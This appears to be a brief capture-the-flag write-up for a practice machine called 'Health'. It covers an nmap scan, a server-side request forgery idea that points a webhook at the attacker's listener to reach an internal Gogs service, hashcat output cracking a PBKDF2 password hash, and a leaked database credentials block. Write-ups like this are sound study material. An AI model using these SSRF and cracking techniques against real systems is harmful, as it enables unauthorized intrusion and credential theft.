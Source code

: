 # Health

---

## Setup

Spawned in the machine as always, got the IP and stored it in an environment variable in case I lose it -as always-

```bash
$ export IP=10.10.11.176
$ echo $IP
10.10.11.176
```

and to make sure everything is working alright and the target machine is up and running, we can use `ping` to make sure it's alive.

```bash
$ ping $IP
PING 10.10.11.176 (10.10.11.176) 56(84) bytes of data.
64 bytes from 10.10.11.176: icmp_seq=1 ttl=63 time=69.3 ms
64 bytes from 10.10.11.176: icmp_seq=2 ttl=63 time=68.1 ms
64 bytes from 10.10.11.176: icmp_seq=3 ttl=63 time=67.9 ms
64 bytes from 10.10.11.176: icmp_seq=4 ttl=63 time=70.4 ms
```

---

## Enumeration

Started with an [nmap](http://nmap.org) scan using the following flags:

`-sV`: Determine running services/versions on open ports
`-sC`: Run default scripts
`-v`: Verbose output
`-oN`: Write the output of the scan into a file

```shell
nmap -sV -sC -v -oN scan.nmap $IP
```

Scan result:

```sh
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 32b7f4d42f45d330ee123b0367bbe631 (RSA)
|   256 86e15d8c2939acd7e815e649e235ed0c (ECDSA)
|_  256 ef6bad64d5e45b3e667949f4ec4c239f (ED25519)
80/tcp   open     http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: HTTP Monitoring Tool
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
3000/tcp filtered ppp

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

IDEA:
Application is a webhook, so we redirect the server request to its own localhost port 3000 and link that webhook to a listener

```json
{
  "webhookUrl": "http://10.10.16.68:4444",
  "monitoredUrl": "http://10.10.16.68/",
  "health": "up",
  "body": "<!DOCTYPE html>\n<html>\n\t<head data-suburl=\"\">\n\t\t<meta http-equiv=\"Content-Type\" content=\"text/html; charset=UTF-8\" />\n        <meta http-equiv=\"X-UA-Compatible\" content=\"IE=edge\"/>\n        <meta name=\"author\" content=\"Gogs - Go Git Service\" />\n\t\t<meta name=\"description\" content=\"Gogs(Go Git Service) a painless self-hosted Git Service written in Go\" />\n\t\t<meta name=\"keywords\" content=\"go, git, self-hosted, gogs\">\n\t\t<meta name=\"_csrf\" content=\"19dYQ6pB8zlGMRVQ9PG_xpt6ZQ46MTY2NjkxMDg3MTUxMDk3MDYzOQ==\" />\n\t\t\n\n\t\t<link rel=\"shortcut icon\" href=\"/img/favicon.png\" />\n\n\t\t\n\t\t<link rel=\"stylesheet\" href=\"//maxcdn.bootstrapcdn.com/font-awesome/4.2.0/css/font-awesome.min.css\">\n\n\t\t<script src=\"//code.jquery.com/jquery-1.11.1.min.js\"></script>\n\t\t\n\t\t\n\t\t<link rel=\"stylesheet\" href=\"/ng/css/ui.css\">\n\t\t<link rel=\"stylesheet\" href=\"/ng/css/gogs.css\">\n\t\t<link rel=\"stylesheet\" href=\"/ng/css/tipsy.css\">\n\t\t<link rel=\"stylesheet\" href=\"/ng/css/magnific-popup.css\">\n\t\t<link rel=\"stylesheet\" href=\"/ng/fonts/octicons.css\">\n\t\t<link rel=\"stylesheet\" href=\"/css/github.min.css\">\n\n\t\t\n    \t<script src=\"/ng/js/lib/lib.js\"></script>\n    \t<script src=\"/ng/js/lib/jquery.tipsy.js\"></script>\n    \t<script src=\"/ng/js/lib/jquery.magnific-popup.min.js\"></script>\n        <script src=\"/ng/js/utils/tabs.js\"></script>\n        <script src=\"/ng/js/utils/preview.js\"></script>\n\t\t<script src=\"/ng/js/gogs.js\"></script>\n\n\t\t<title>Gogs: Go Git Service</title>\n\t</head>\n\t<body>\n\t\t<div id=\"wrapper\">\n\t\t<noscript>Please enable JavaScript in your browser!</noscript>\n\n<header id=\"header\">\n    <ul class=\"menu menu-line container\" id=\"header-nav\">\n        \n\n        \n            \n            <li class=\"right\" id=\"header-nav-help\">\n                <a target=\"_blank\" href=\"http://gogs.io/docs\"><i class=\"octicon octicon-info\"></i>&nbsp;&nbsp;Help</a>\n            </li>\n            <li class=\"right\" id=\"header-nav-explore\">\n                <a href=\"/explore\"><i class=\"octicon octicon-globe\"></i>&nbsp;&nbsp;Explore</a>\n            </li>\n            \n        \n    </ul>\n</header>\n<div id=\"promo-wrapper\">\n    <div class=\"container clear\">\n        <div id=\"promo-logo\" class=\"left\">\n            <img src=\"/img/gogs-lg.png\" alt=\"logo\" />\n        </div>\n        <div id=\"promo-content\">\n            <h1>Gogs</h1>\n            <h2>A painless self-hosted Git service written in Go</h2>\n            <form id=\"promo-form\" action=\"/user/login\" method=\"post\">\n                <input type=\"hidden\" name=\"_csrf\" value=\"19dYQ6pB8zlGMRVQ9PG_xpt6ZQ46MTY2NjkxMDg3MTUxMDk3MDYzOQ==\">\n                <input class=\"ipt ipt-large\" id=\"username\" name=\"uname\" type=\"text\" placeholder=\"Username or E-mail\"/>\n                <input class=\"ipt ipt-large\" name=\"password\" type=\"password\" placeholder=\"Password\"/>\n                <input name=\"from\" type=\"hidden\" value=\"home\">\n                <button class=\"btn btn-black btn-large\">Sign In</button>\n                <button class=\"btn btn-green btn-large\" id=\"register-button\">Register</button>\n            </form>\n            <div id=\"promo-social\" class=\"social-buttons\">\n                \n\n\n\n            </div>\n        </div>&nbsp;\n    </div>\n</div>\n<div id=\"feature-wrapper\">\n    <div class=\"container clear\">\n        \n        <div class=\"grid-1-2 left\">\n            <i class=\"octicon octicon-flame\"></i>\n            <b>Easy to install</b>\n            <p>Simply <a target=\"_blank\" href=\"http://gogs.io/docs/installation/install_from_binary.html\">run the binary</a> for your platform. Or ship Gogs with <a target=\"_blank\" href=\"https://github.com/gogits/gogs/tree/master/dockerfiles\">Docker</a> or <a target=\"_blank\" href=\"https://github.com/geerlingguy/ansible-vagrant-examples/tree/master/gogs\">Vagrant</a>, or get it <a target=\"_blank\" href=\"http://gogs.io/docs/installation/install_from_packages.html\">packaged</a>.</p>\n        </div>\n        <div class=\"grid-1-2 left\">\n            <i class=\"octicon octicon-device-desktop\"></i>\n            <b>Cross-platform</b>\n            <p>Gogs runs anywhere <a target=\"_blank\" href=\"http://golang.org/\">Go</a> can compile for: Windows, Mac OS X, Linux, ARM, etc. Choose the one you love!</p>\n        </div>\n        <div class=\"grid-1-2 left\">\n            <i class=\"octicon octicon-rocket\"></i>\n            <b>Lightweight</b>\n            <p>Gogs has low minimal requirements and can run on an inexpensive Raspberry Pi. Save your machine energy!</p>\n        </div>\n        <div class=\"grid-1-2 left\">\n            <i class=\"octicon octicon-code\"></i>\n            <b>Open Source</b>\n            <p>It's all on <a target=\"_blank\" href=\"https://github.com/gogits/gogs/\">GitHub</a>! Join us by contributing to make this project even better. Don't be shy to be a contributor!</p>\n        </div>\n        \n    </div>\n</div>\n\t\t</div>\n\t\t<footer id=\"footer\">\n\t\t    <div class=\"container clear\">\n\t\t        <p class=\"left\" id=\"footer-rights\">© 2014 GoGits · Version: 0.5.5.1010 Beta · Page: <strong>1ms</strong> ·\n\t\t            Template: <strong>1ms</strong></p>\n\n\t\t        <div class=\"right\" id=\"footer-links\">\n\t\t            <a target=\"_blank\" href=\"https://github.com/gogits/gogs\"><i class=\"fa fa-github-square\"></i></a>\n\t\t            <a target=\"_blank\" href=\"https://twitter.com/gogitservice\"><i class=\"fa fa-twitter\"></i></a>\n\t\t            <a target=\"_blank\" href=\"https://plus.google.com/communities/115599856376145964459\"><i class=\"fa fa-google-plus\"></i></a>\n\t\t            <a target=\"_blank\" href=\"http://weibo.com/gogschina\"><i class=\"fa fa-weibo\"></i></a>\n\t\t            <div id=\"footer-lang\" class=\"inline drop drop-top\">Language\n\t\t                <div class=\"drop-down\">\n\t\t                    <ul class=\"menu menu-vertical switching-list\">\n\t\t                    \t\n\t\t                        <li><a href=\"#\">English</a></li>\n\t\t                        \n\t\t                        <li><a href=\"/?lang=zh-CN\">简体中文</a></li>\n\t\t                        \n\t\t                        <li><a href=\"/?lang=zh-HK\">繁體中文</a></li>\n\t\t                        \n\t\t                        <li><a href=\"/?lang=de-DE\">Deutsch</a></li>\n\t\t                        \n\t\t                        <li><a href=\"/?lang=fr-CA\">Français</a></li>\n\t\t                        \n\t\t                        <li><a href=\"/?lang=nl-NL\">Nederlands</a></li>\n\t\t                        \n\t\t                    </ul>\n\t\t                </div>\n\t\t            </div>\n\t\t            <a target=\"_blank\" href=\"http://gogs.io\">Website</a>\n\t\t            <span class=\"version\">Go1.3.2</span>\n\t\t        </div>\n\t\t    </div>\n\t\t</footer>\n\t</body>\n</html>",
  "message": "HTTP/1.0 302 Found",
  "headers": {
    "Server": "BaseHTTP/0.6 Python/3.10.7",
    "Date": "Thu, 27 Oct 2022 22:47:51 GMT",
    "Location": "http://127.0.0.1:3000",
    "Content-Type": "text/html; charset=UTF-8",
    "Set-Cookie": "_csrf=; Path=/; Max-Age=0"
  }
}
```

sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9uPDKLOWKnYHAS+Lm07oqDWwDLw/U74P0jXQ0nsGW9O/jc=:february15
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 10900 (PBKDF2-HMAC-SHA256)
Hash.Target......: sha256:10000:c08zWEliZVcxNA:ZsB0ZFVFeB8QZPt/0Rd0U9u...9O/jc=
Time.Started.....: Thu Oct 27 19:32:20 2022, (1 min, 28 secs)
Time.Estimated...: Thu Oct 27 19:33:48 2022, (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      808 H/s (7.29ms) @ Accel:32 Loops:1024 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 70976/14344385 (0.49%)
Rejected.........: 0/70976 (0.00%)
Restore.Point....: 70912/14344385 (0.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:9216-9999
Candidate.Engine.: Device Generator
Candidates.#1....: fullysick -> faith9
Hardware.Mon.#1..: Util: 96%

DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=laravel
DB_USERNAME=laravel
DB_PASSWORD=MYsql_strongestpass@2014+